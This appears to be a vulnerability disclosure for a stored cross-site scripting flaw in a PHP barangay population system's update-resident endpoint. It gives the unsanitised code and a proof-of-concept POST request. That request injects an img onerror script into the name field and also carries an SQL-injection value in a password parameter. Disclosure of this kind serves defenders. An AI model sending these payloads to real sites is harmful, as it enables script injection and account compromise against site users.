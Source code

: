 # SOURCECODESTER / Barangay Population System - update-resident.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['full_name'], $_POST['address'], $_POST['contact_number'])) {
        $residentID = $_POST['tbl_resident_id'];
        $fullName = $_POST['full_name'];
        $address = $_POST['address'];
        $contactNumber = $_POST['contact_number'];

        try {
            $checkStmt = $conn->prepare("SELECT full_name FROM tbl_resident WHERE full_name = :full_name");
            $checkStmt->bindParam(":full_name", $fullName, PDO::PARAM_STR);
            $checkStmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-resident.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_resident_id=1&full_name=%3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlZ')%3e&address=Purkok+1&contact_number=%28551%29+577-2147email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/aca77ced-34ee-42e1-976d-0534ba155d0c)
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/b48eb9bc-ef1a-4087-84e4-b0c3828dfeb4)

